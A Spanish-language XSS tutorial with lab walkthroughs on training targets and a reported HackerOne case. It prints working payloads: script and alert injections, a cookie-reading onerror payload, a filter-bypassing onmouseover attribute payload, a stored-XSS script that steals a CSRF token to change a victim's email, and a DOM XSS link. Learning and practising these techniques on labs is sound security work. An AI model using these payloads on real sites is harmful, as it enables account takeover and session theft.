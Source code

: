 # __Definición__

El ataque XSS (Cross-site scripting) permite a un atacante ejecutar código arbitrario client-side en el navegador de una víctima. Se puede utilizar para phishing, datos de exfilación, adquisición de cuentas y más.

# __Impacto__

Leer/modificar/eliminar contenido de cualquier página, robar cookies o sesiones de un usuario y obtener acceso a su cuenta, ofrecer contenido malicioso como phishing.

# __Tipos__

- Reflected XSS 

- Stored XSS: almacena el payload en la base de datos.

- DOM XSS

## __Reflected XSS__

En este caso voy a estar practicando en un laboratorio creado por NahamSec el cual podeis descargarlo en el siguiente enlace. 

[Lab de Nahamsec](https://github.com/nahamsec/nahamsec.training)

Lo primero con lo que nos encontramos es con un formulario que nos está pidiendo nuestro nombre. Si lanzamos el siguiente comando vamos a estar realizando un secuestro de cookie.


![](https://cdn.discordapp.com/attachments/866283809338818580/874823906328981524/si.png)

En este caso concreto no existe ningún tipo de cookie en la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJ-Ug2n3znolYFg9G%2Fimage.png?alt=media&amp;token=32f699c9-ba14-4f1b-989c-0a0368b67da1)
![]()

Podemos observar como primero interpreta el código malicioso y luego nos devuelve el output normal.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJGewZ_3gsBMvxsrt%2Fimage.png?alt=media&amp;token=01bd6c53-4700-4331-83c3-252ec6268e8d)

```xml
test1"><script>alert()</script>
</title><u> h4ns </u> <script>alert(1)</script>
```
Si tenemos un parámetro vulnerable como es en este caso `name` podríamos aprovecharnos y poner nuestro nombre cerrándolo con una comilla ' para luego decirle a la aplicación que ejecute todo lo que viene a continuación y descarte todo lo que está comentado a partir de las barras // .

```bash
http://xss4.naham.sec/?name=h4ns%27;+alert(1);//aaaa
# ' = %27 (URL Encode)
```
Aquí veriamos el ejemplo:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeLFzinC6HPLxgP0RB%2Fimage.png?alt=media&amp;token=57d97055-638b-40aa-bb88-e2ba6141fcfe)

### __Primer ejercicio__

Una parte de los laboratorios de Nahamsec me pareció super interesante, vamos a echarle un vistazo:

Estamos en la pagina principal de la tienda https://nahamstore.thm y vamos a enviar un directorio invalido como por ejemplo https://nahamstore.thm/h4ns a ver que nos dice la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-MglsgGiYwktcwhyyPmS%2Fimage.png?alt=media&amp;token=3d3c9a66-b9d9-422a-bbf8-b764559e749d)

Ajá lo URL encodea. Vamos a probar a añadirle un parámetro aleatorio como por ejemplo file a ver cual es su respuesta.

```
http://nahamstore.thm/h4ns?file=xss
```

Después de lanzarlo nos damos cuenta que cualquier cosa que pongamos en la barra de búsqueda, si no es encontrado, es reflejado en el cuerpo de la página.

Vamos a añadirle a nuestra petición el tag `<h1>` a ver que nos devuelve la página:

```
http://nahamstore.thm/h4ns?file=<h1>xss
```

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-Mgm0HxBXKQo_KevndPO%2Fimage.png?alt=media&amp;token=c99ccc61-b55c-4295-88b5-b0a471079138)

Perfecto, ya tenemos vía libre para robar unas cookies por ejemplo.

```
http://nahamstore.thm/h4ns?file=<img src=x onerror=alert(document.cookie)>
```
Lo que estamos haciendo en este código de javascript es pedir que nos cargue una imagen llamada `x` pero como esta no existe pues nos va a ejecutar el `alert()`. Esto se produce gracias al parámetro `onerror`.

### __Segundo ejercicio__

En este caso nos vamos a dirigir a uno de los productos que están disponibles para comprar en la tienda, en concreto el de las pegatinas. 

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmClfVhwoT8u8ZRKoE%2F-MgmFI8Jkzv_WorlBicz%2Fimage.png?alt=media&amp;token=5be4d9ac-9c49-42f9-a5a0-f4fea001ade6)

Vamos a abrir el Burp para ver como viaja esta petición:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmFTP6qsMFnnr07dsY%2F-MgmH4eZcU800oWuPwYc%2Fimage.png?alt=media&amp;token=e7a814df-15be-427d-b671-9caeb2f0a1f9)

En seguida nos damos cuenta que hay un parámetro llamado `discount` pero, como podriamos hacer llegar un xss ahí?

Mandamos la petición al Repeater y le damos a `Follow redirect`, lo que vamos a hacer a continuación es lo que muchas páginas webs hacen y es meter un parámetro en la URL de la petición GET. En este caso vamos a introducir `discount`.

Si le mandamos el payload clásico para ver si pasa algo...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXgeGhsDYIN0x--1v%2Fimage.png?alt=media&amp;token=d8c356fd-f959-498f-9f2c-1b12c6486765)

y vemos el resultado en la respuesta del servidor...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXuFvJduTgx_rngeE%2Fimage.png?alt=media&amp;token=758eac22-ff65-4e4f-94e9-05f37a61a176)

nos vamos a dar cuenta que nos han eliminado los caracteres `<>`.

Por lo tanto vamos a eliminarlos de nuestro payload y a crear uno nuevo el cual al pasar el ratón por encima del input nos salte una alerta.

```
http://nahamstore.thm/product?id=2&added=1&discount=11" onmouseover=alert(1);"
```

Podemos verificar que esto se va a ejecutar correctamente si miramos la respuesta:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mgmbv-yMZVbZwCO2LtH%2F-MgmcISZI4kEGHcCJNzr%2Fimage.png?alt=media&amp;token=31fe1f44-c082-43d5-925d-c019570c9a19)

Al final del payload podríamos poner " para cerrar comillas o // para hacer que esta última se convirtiese en un comentario.

## __Stored XSS__

Estos casos son un poco más complicados debido a su complejidad. Podríamos aprovecharnos de esta vulnerabilidad para realizar un CSRF, vamos a ver un ejemplo. 

Esta vez voy a estar operando en la plataforma de PortSwigger.

[XSS to CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Si miramos el código de la página vamos a observar que tenemos que hacer una solicitud POST a la dirección `/my-account/change-email` . También nos damos cuenta de que existe un anti-CSRF token en un input oculto llamado `token`.

Ahora ya podemos montar nuestro payload el cual deberá cargar la página de la cuenta de usuario, extraer el token CSRF y luego usar el token para cambiar la dirección de correo electrónico de la víctima.

Lo escribimos en algún blog que tenga los comentarios activados y...

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=h4ns@test.com')
};
</script>
```

 Esto hará que cualquier persona que vea el comentario emita una solicitud POST para cambiar su dirección de correo electrónico a h4ns@test.com.

 ## __DOM XSS__

 DOM XSS ocurre cuando javascript refleja datos de un recurso controlado por un atacante (por ejemplo, dentro de la URL) y los pasa a una función más adelante.

Vamos a observar algún ejemplo:

[Reporte de hackerone](https://hackerone.com/reports/324303)

Este tipo de XSS es mucho mas complicado que los anteriores y es necesario tener conocimientos a cerca de javascript y HTML.

La persona que reportó esta vulnerabilidad nos cuenta como a partir del siguiente código interpeta que está buscando una localización para cargar una página en particular dentro de esa web.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeYUWdJwE1INxoBHj1%2Fimage.png?alt=media&amp;token=e1fce6b9-904d-422e-860a-5a16a9f464ae)

Un atacante puede poner su payload en el enlace y se incrustará en el output de la página:

```
https://mycrypto.com/#send-transaction<div/class="header__wrap"><a/href=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif></div>
```

Aquí tendríamos el resultado:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeZ5ESHG-WrSmxRdIV%2Fimage.png?alt=media&amp;token=6d18cbbb-4311-424a-b803-7c860b7fd82a)

En concreto sería este tipo de evento el que se está vulnerando:

[Location href Property](https://www.w3schools.com/jsref/prop_loc_href.asp)

Gracias :)
